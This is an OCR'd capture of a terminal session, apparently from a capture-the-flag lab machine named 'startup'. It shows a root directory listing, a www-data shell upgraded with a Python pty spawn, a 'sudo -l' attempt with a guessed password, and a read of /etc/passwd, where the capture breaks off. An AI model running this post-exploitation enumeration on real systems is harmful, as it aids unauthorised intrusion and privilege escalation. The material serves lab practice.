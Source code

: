 ```
drwxr-xr-x  95 root     root      4096 Oct  2 17:24 etc
drwxr-xr-x   4 root     root      4096 Oct  2 17:26 home
drwxr-xr-x   2 www-data www-data  4096 Oct  2 17:24 incidents
lrwxrwxrwx   1 root     root        33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root        33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root      4096 Sep 25 08:22 lib
drwxr-xr-x   2 root     root      4096 Sep 25 08:10 lib64
drwx------   2 root     root     16384 Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root      4096 Sep 25 08:09 media
drwxr-xr-x   2 root     root      4096 Sep 25 08:09 mnt
drwxr-xr-x   2 root     root      4096 Sep 25 08:09 opt
dr-xr-xr-x 125 root     root         0 Oct  2 17:19 proc
-rw-r--r--   1 www-data www-data   136 Oct  2 17:24 recipe.txt
drwx------   3 root     root      4096 Oct  2 17:24 root
drwxr-xr-x  25 root     root       960 Oct  2 17:23 run
drwxr-xr-x   2 root     root      4096 Sep 25 08:22 sbin
drwxr-xr-x   2 root     root      4096 Oct  2 17:20 snap
drwxr-xr-x   3 root     root      4096 Oct  2 17:23 srv
dr-xr-xr-x  13 root     root         0 Oct  2 17:19 sys
drwxrwxrwt   7 root     root      4096 Oct  2 17:40 tmp
drwxr-xr-x  10 root     root      4096 Sep 25 08:09 usr
drwxr-xr-x   1 vagrant  vagrant    118 Oct  1 19:49 vagrant
drwxr-xr-x  14 root     root      4096 Oct  2 17:23 var
lrwxrwxrwx   1 root     root        30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root        30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
$ whoami
www-data
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@startup:/$ cd
cd
bash: cd: HOME not set
www-data@startup:/$ ls
ls
bin   etc	  initrd.img.old  media  recipe.txt  snap  usr	    vmlinuz.old
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```